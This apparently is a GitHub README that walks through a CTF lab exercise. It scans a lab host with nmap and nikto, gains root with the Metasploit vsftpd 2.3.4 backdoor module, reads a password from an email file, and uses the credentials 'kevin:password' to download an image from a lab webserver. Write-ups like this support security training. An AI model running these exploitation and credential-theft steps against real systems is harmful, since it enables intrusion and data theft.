**Capture the Flag (CTF) Challenges**

This repository contains a comprehensive breakdown of a Capture the Flag (CTF) exercise. Through three well-defined tasks, the project demonstrates practical skills in vulnerability exploitation, sensitive data extraction, and network traffic analysis.

---

📜 **Overview**

Tasks
1. **Compromise the Target Host**  
   Identify and exploit a known vulnerability to gain filesystem access.

2. **Extract the Password from the Email File**  
   Locate and extract a password from an email file stored on the compromised host.

3. **Download the Top-Secret Image**  
   Identify the webserver hosting a confidential image, authenticate, and download the file.

---

✨ **Task Details**

**Task 1: Compromise the Target Host**
- **Objective:** Exploit a vulnerability to gain root access to the target host.  
- **Key Steps:**
  1. **Reconnaissance with Nmap:**
     ```bash
     nmap -sV 192.168.14.226
     ```
     - Discovered an FTP service running `vsftpd 2.3.4`, known for its backdoor vulnerability.
  2. **Web Service Scanning with Nikto:**
     ```bash
     nikto -h 192.168.14.226
     ```
     - Verified potential vulnerabilities on the webserver.
  3. **Exploitation Using Metasploit:**
     ```bash
     msfconsole
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOSTS 192.168.14.226
     exploit
     ```
     - Successfully exploited the backdoor and gained root access.

- **Challenges:**  
  - Identifying the correct IP and service.
  - Matching the Metasploit module to the identified vulnerability.

---

**Task 2: Extract the Password from the Email File**
- **Objective:** Locate an email file on the compromised host and extract the password.  
- **Key Steps:**
  1. **Search for Email Files:**
     ```bash
     find /home/ -name ".eml"
     ```
     - Found: `/home/kevin/mail/email001.eml`.
  2. **Extract Information:**
     ```bash
     cat /home/kevin/mail/email001.eml
     ```
     - Retrieved sender and receiver email addresses and the password.

- **Challenges:**  
  - Navigating the filesystem without prior knowledge of file locations.
  - Correctly interpreting the email contents.

---

**Task 3: Download the Top-Secret Image**
- **Objective:** Identify the webserver hosting the top-secret image, authenticate, and download the file.  
- **Key Steps:**
  1. **Network Scanning with Nmap:**
     ```bash
     nmap -p 80 192.168.14.0/24
     ```
     - Discovered multiple hosts with open HTTP ports.
  2. **Automated Target Identification Script:**
     ```bash
     ./scan_webservers.sh
     ```
     - Identified potential servers and standardized login credentials.
  3. **Traffic Analysis with Wireshark:**
     - Applied a filter:
       ```
       tcp.port == 80
       ```
     - Pinpointed the target IP: `192.168.13.220`.
  4. **Accessing and Downloading the Image:**
     - Navigated to `http://192.168.13.220` in a browser.
     - Used extracted credentials (`kevin:password`) to log in and download the image.

- **Challenges:**  
  - Narrowing down the correct webserver among many.
  - Effective use of network traffic analysis to identify the target.

---

🛠️ **Tools Used**

- **Reconnaissance:** Nmap, Nikto
- **Exploitation:** Metasploit
- **File Navigation:** Linux command-line tools (find, cat)
- **Traffic Analysis:** Wireshark
- **Automation:** Custom Bash scripts

---

💡 **Insights**

- **Exploitation Skills:** Demonstrated ability to identify and exploit known vulnerabilities using tools like Metasploit.
- **Data Extraction:** Extracted sensitive information effectively through filesystem navigation.
- **Network Traffic Analysis:** Applied Wireshark and Nmap to analyze and identify target hosts.
- **Problem-Solving:** Overcame challenges in each phase by combining technical skills with critical thinking.

---

📬 **Contact**

For collaboration or inquiries, reach out:  
**Barjinder Singh** - [barjindersingh@ou.edu](mailto:barjindersingh@ou.edu)
